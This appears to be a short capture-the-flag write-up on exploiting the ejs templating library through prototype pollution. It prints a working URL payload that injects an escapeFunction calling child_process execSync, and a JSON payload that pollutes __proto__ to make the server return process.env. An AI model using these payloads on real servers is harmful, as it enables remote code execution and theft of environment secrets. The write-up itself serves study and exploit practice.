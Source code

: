 https://github.com/mde/ejs/issues/735

This is based off the above issue.
There is a bug which if the 2nd parameter of the ejs render function is controlled by the user, then SSTI and RCE can be acheived
http://127.0.0.1:3000/?name=John&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('calc');


In this case however, the 2nd parameter is not controlled by the user, so we can't use this method.
Instead, there is a prototype pollution vulnerability in the code:
```javascript
graph[x][y][typeOrAlt] = value
```

As such, if we set x and y to `__proto__`, we can pollute the object prototype to be whatever we want. In ejs's case, the "view options" object is vulnerable to prototype pollution. Thus, we can let view options be 
```json
{
    "client": true,
    "escapeFunction": "1;return process.env;",
}
```

To make the code return the environment variables. Full payload:
```json
{"points":[
    {"x":"__proto__",
    "y":"__proto__",
    "typeOrAlt":"escapeFunction",
    "value":"1;return process.env;"
}]}
```

